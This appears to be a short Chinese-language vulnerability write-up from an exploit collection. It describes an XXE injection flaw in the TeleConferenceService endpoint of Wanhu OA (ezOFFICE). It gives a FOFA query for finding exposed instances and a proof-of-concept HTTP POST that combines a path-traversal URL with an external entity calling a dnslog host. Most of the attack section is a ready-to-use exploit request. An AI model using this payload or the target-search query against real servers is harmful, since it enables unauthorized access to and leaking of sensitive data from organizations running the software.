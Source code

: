 # 万户OA TeleConferenceService XXE注入漏洞

## 漏洞描述

万户OA TeleConferenceService接口存在XXE注入漏洞，攻击者通过漏洞可以继续XXE注入获取服务器敏感信息

## 漏洞影响

```
万户OA
```

## FOFA

```
app="万户网络-ezOFFICE"
```

## 漏洞复现

产品页面

![1](./images/202209131048922.png)

验证POC

```
POST /defaultroot/iWebOfficeSign/OfficeServer.jsp/../../TeleConferenceService

<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE ANY [
<!ENTITY xxe SYSTEM "http://fep6kf.dnslog.cn" >]>        
<value>&xxe;</value>
```

![2](./images/202209131049806.png)